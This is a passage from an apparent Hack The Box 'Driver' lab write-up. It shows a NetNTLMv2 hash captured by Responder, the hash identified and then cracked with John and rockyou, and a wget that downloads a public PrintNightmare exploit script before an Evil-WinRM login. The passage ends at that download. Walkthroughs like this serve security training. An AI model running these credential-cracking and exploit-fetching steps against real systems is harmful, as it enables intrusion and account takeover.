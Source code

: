 After clicking the submit button to upload our payload we see Responder has captured the user hash. We can attempt to crack it:

```sh
┌──(root💀kali)-[~/htb/driver]
└─# echo "tony::DRIVER:e4<HIDDEN>00" > hash.txt

┌──(root💀kali)-[~/htb/driver]
└─# nth --file hash.txt      
  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 

tony::DRIVER:e4<HIDDEN>00

Most Likely 
NetNTLMv2, HC: 5600 JtR: netntlmv2
```

Use John with rockyou, it only takes a few seconds:

```sh
┌──(root💀kali)-[~/htb/driver]
└─# john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>          (tony)
1g 0:00:00:00 DONE (2021-10-27 17:26) 50.00g/s 1638Kp/s 1638Kc/s 1638KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

## Evil-WinRM

We now have a username and password so can connect using Evil-WinRM. Before we do let's grab [this](https://github.com/calebstewart/CVE-2021-1675) version of the public exploits for PrintNightmare:

```sh
┌──(root💀kali)-[~/htb/driver]
└─# wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1
--2021-10-27 17:29:10--  https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 178561 (174K) [text/plain]
Saving to: ‘CVE-2021-1675.ps1’
CVE-2021-1675.ps1     100%[=================================================>] 174.38K  --.-KB/s    in 0.06s
2021-10-27 17:29:11 (2.85 MB/s) - ‘CVE-2021-1675.ps1’ saved [178561/178561]
```
